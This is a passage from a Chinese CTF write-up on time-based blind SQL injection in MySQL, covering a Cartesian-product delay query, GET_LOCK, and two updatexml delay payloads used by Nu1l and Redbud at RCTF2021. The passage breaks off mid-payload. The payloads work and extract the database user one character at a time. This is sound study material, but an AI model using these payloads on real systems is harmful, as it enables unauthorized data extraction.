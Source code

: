 ```
        print(flag)  
        break
```

### 笛卡尔积

笛卡尔积(因为连接表是一个很耗时的操作)，可以用

```
select count(*) from information_schema.columns A, information_schema.columns B;
```

代替sleep，改改脚本就能打ctfshow web219(跑太快了值好像就不对了，所以我加了个sleep(0.5))，但误差还是很大，这种方法不建议

### GET_LOCK() 加锁

可以看看[SQL注入有趣姿势总结](https://xz.aliyun.com/t/5505)，限制有点多，得同时开两个`SESSION`进行注入

### updatexml

RCTF2021里有一道时间盲注题，一道考察比赛选手们如何在预编译中找到耗时函数的挑战，因为MySQL中会对需要执行的SQL语句进行预处理来优化一些无用的语句或者确定类型。当年那道题只有两解，分别是Nul1和清华Redbud，他们最终都使用了updatexml作为产生延时的函数，我们来欣赏一下他们的payload：

**From Nu1l**

```
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '关注嘉然' = '顿顿解馋' OR 'Watch Diana a day' = 'Keep hunger away' OR '嘉然に注目して' = '食欲をそそる' 
ORDER BY
(
    updatexml (1,
        IF(
            ASCII(SUBSTR((SELECT USER()), 1, 1 )) = 65,
            CONCAT(REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('a', 40000000), REPEAT('b', 10000000)),
            1
        ),
        1
    ) 
)
```

当时比赛的时候出题人使用了`msleep`延长了每次请求的时间，需要选手找到耗时更长（能够稳定延迟1.5秒以上）的攻击payload了，来获取flag，Nu1l这个解法实际上只能造成0.5s-0.7s的延迟，但他们用了一个别出心裁的做法增大了延时——同时发大量请求的导致大于1秒的延迟。

**From Redbud**

```
SELECT
    CONCAT( 'RCTF{', USER (), '}' ) AS FLAG 
WHERE
    '关注嘉然' = '顿顿解馋' OR 'Watch Diana a day' = 'Keep hunger away' OR '嘉然に注目して' = '食欲をそそる' 
ORDER BY
(
    updatexml (1,
        concat(
            '~',
            (
                if(
                    (substr(hex(user()), 1, 1)='A'),
                    (select length(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex(hex('1')))))))))))))))))))))))))))))))),
                    'a'
                )
            ),
            1
```